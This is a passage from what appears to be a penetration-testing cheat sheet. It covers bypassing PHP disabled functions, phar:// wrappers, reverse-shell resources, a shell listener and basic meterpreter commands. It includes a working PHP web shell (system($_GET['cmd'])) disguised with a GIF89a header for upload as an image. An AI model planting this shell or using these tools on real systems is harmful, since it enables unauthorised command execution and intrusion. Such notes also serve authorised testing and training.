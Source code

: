 Python2 (original):
https://github.com/teambi0s/dfunc-bypasser/tree/master

```
python dfunc-bypasser.py --url https://example.com/phpinfo.php
```

## phar
phar is achived PHP files.
We can access ``phar://<phar file>/<.php filename>``

# Reverse shell
## php-reverse-shell
```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

## Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## GIF89a
https://github.com/Rajchowdhury420/OSCP-CheatSheet/blob/main/Reverse-Shell-via-JPG.md
```shell
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## Listening the port for reverse shell
[penelope](https://github.com/brightio/penelope) is a shell handler.
```shell
python penelope.py 1234
```



## Metasploit
Refer  [msfvenom](#msfvenom)
# Metasploit
## meterpreter
## Get system info
```
sysinfo
```
### Start shell
```
shell
```
